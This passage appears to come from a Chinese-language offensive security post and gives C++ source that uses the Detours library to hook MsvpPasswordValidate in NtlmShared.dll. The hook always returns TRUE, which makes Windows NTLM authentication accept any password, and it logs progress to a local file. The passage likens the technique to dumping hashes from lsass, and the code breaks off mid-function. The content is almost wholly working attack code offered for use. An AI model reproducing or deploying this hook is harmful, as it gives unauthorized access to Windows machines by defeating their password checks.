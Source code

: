 至此整个就实现了，实现流程很简单。  
全部实现如下，和 lsass dump hash 原理一样。

```plain
#pragma once
#define SECURITY_WIN32
#define WIN32_LEAN_AND_MEAN
#define DEBUG_BUILD

#include <windows.h>
#include <SubAuth.h>
#include <iostream>
#include <fstream>
#include <string>
#include "detours.h"
#pragma comment (lib,"detours.lib")

typedef BOOLEAN(WINAPI* pMsvpPasswordValidate)(BOOLEAN, NETLOGON_LOGON_INFO_CLASS, PVOID, void*, PULONG, PUSER_SESSION_KEY, PVOID);
pMsvpPasswordValidate MsvpPasswordValidate = nullptr;
BOOLEAN HookMSVPPValidate(BOOLEAN UasCompatibilityRequired,
    NETLOGON_LOGON_INFO_CLASS LogonLevel,
    PVOID LogonInformation,
    void* Passwords,
    PULONG UserFlags,
    PUSER_SESSION_KEY UserSessionKey,
    PVOID LmSessionKey) {

    return TRUE;

}
bool InstallHook() {
    std::wofstream credentialFile;
    credentialFile.open("D:\\111.txt", std::fstream::in | std::fstream::out | std::fstream::app);

    HMODULE ntmlModule = LoadLibrary(L"NtlmShared.dll");
    if (ntmlModule == nullptr) {
        credentialFile << L"Domain: " << L"load error" << std::endl;
        return false;
    }

    MsvpPasswordValidate = (pMsvpPasswordValidate)GetProcAddress(ntmlModule, "MsvpPasswordValidate");
    credentialFile << L"Domain: " << L"MsvpPasswordValidate address: " << MsvpPasswordValidate << std::endl;

    if (MsvpPasswordValidate == nullptr) {
        credentialFile << L"Domain: " << L"GetProcAddress error" << std::endl;
        return false;
    }

    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());

    LONG detourAttachResult = DetourAttach(&(PVOID&)MsvpPasswordValidate, HookMSVPPValidate);


    if (detourAttachResult != NO_ERROR) {
        credentialFile << L"Domain: " << L"DetourAttach error - " << detourAttachResult << std::endl;
        DetourTransactionAbort();
        return false;
    }

```